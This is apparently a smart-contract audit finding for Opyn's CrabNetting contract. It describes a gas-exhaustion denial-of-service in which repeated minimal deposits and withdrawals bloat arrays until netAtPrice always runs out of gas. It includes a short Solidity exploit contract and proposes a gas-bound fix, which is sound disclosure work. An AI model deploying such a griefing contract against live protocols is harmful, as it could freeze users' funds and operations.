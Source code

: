 Atarpara

high

# OOS error and system stuck forever

## Summary
function always run into out of gas error

## Vulnerability Detail
`netAtPrice` price function make so many external calls and sload(2100 gas per slot) + memory expansion cost. When auction is not live malicious user deploy custom smartcontract and deposit `minUSDCAmount` and withdraw `minUSDCAmount` 350 times in 2 or 3 tx. Same for `crab` token. Now `deposits` and `withdraws` array are filled 350 times zero. When owner execute `netAtPrice` function it will go into out of gas error forever.

## Impact
System Stuck Forever.

## Code Snippet
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L353-L418

Proof of Concept
```solidity
contract Exploit {
    address internal crabNetting = crabNetting;

    function fillZeroArrayinDeposit(uint256 _times, uint256 _amount) external {
        for(uint256 i ; i < _times ; ++i) {
            require(!crabNetting.isAuctionLive());
            crabNetting.depositUSDC(_amount);
            crabNetting.withdrawUSDC(_amount);
        }
    }
    function fillZeroArrayinWithdraw(uint256 _times, uint256 _amount) external {
        for(uint256 i ; i < _times ; ++i) {
            require(!crabNetting.isAuctionLive());
            crabNetting.queueCrabForWithdrawal(_amount);
            crabNetting.dequeueCrab(_amount);
        }
    }
}
```
## Tool used

Manual Review

## Recommendation
Add GASBOUND in while Loop.
```solidity
while (quantity > 0 && gasUsed < GASBOUND) 
```

